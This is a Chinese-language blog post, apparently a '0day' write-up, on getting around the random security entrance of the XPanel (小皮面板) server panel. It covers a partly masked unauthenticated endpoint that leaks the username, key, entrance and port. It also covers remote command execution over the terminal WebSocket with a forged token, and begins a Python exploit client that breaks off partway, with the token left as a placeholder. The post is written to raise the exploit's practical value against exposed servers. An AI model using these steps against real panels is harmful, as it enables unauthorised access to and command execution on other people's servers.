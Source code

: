 由于小皮面板搭建后端口是随机开放的，fofa探测不全，实际资产远不止这些  
# 绕过方式  
# 内容基于上一篇小皮面板(XPanel)前台RCE。  
# 【0day预警】最新版小皮面板(XPanel)组合拳前台RCE  
# 不少师傅提出，漏洞复现成功了但是由于小皮搭建后存在随机安全人口，我找不到对应的登入框，利用价值不高，这里给揭露两种绕过限制的方法  
  
  
信息泄露  
  
小皮的主程序在/xp/panel/app，我们通过go tool将主程序编译为汇编代码  
```
go tool objdump -S app > xp.asm 
```  
  
然后可以根据规则去搜索⾯板相关接⼝，有些接⼝在⾯板⾥没有使⽤到，但是可以直接调⽤的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPkLgiaiccouicOYfpZUcb0s7v3Mict3jG5ic61psYQnAnfYaGZzWHKN4D6kXicrDIRWpg10z5a7UA4JTx0g/640?wx_fmt=png&from=appmsg "")  
  
提取接口测试，发现  
/panel***/section***?section  
=  
panel  
接口存在未授权访问信息泄露  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPkLgiaiccouicOYfpZUcb0s7v3sVounM55a7OXz0ibObRzeTjaY89bXdr05GH0F0kLch4jxa8TSdckUQg/640?wx_fmt=png&from=appmsg "")  
  
会泄露⾯板的⽤户名，key，安全⼊⼝，端⼝，版本号等信息  
  
无需入口RCE  
  
小皮的终端连接无需安全面板，通过WS协议通信执行命令，只需要伪造token即可连接服务器执行命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPkLgiaiccouicOYfpZUcb0s7v3LGkKAdTTQh1o0AD6YGX0xp9WIvjOYoRxTfpy4FowWEIic4ibfvmUd8Cw/640?wx_fmt=png&from=appmsg "")  
  
写个简单的python脚本测试  
```
#!/usr/bin/env python3
import sys
import asyncio
import websockets
from typing import Optional


class WebSSHClient:
    def __init__(self, host: str):
        self.websocket: Optional[websockets.WebSocketClientProtocol] = None
        self.host = host
        self.auth_token = (
            "伪造的身份标识"
        )
        self.connected = False

    async def connect(self) -> None:
        """Establish WebSocket connection and authenticate"""
        uri = f'ws://{self.host}/wsSsh/wsSsh?machineId=1&token={self.auth_token}'
        try:
            self.websocket = await websockets.connect(uri)
            await self._authenticate()
            self.connected = True
        except Exception as e:
```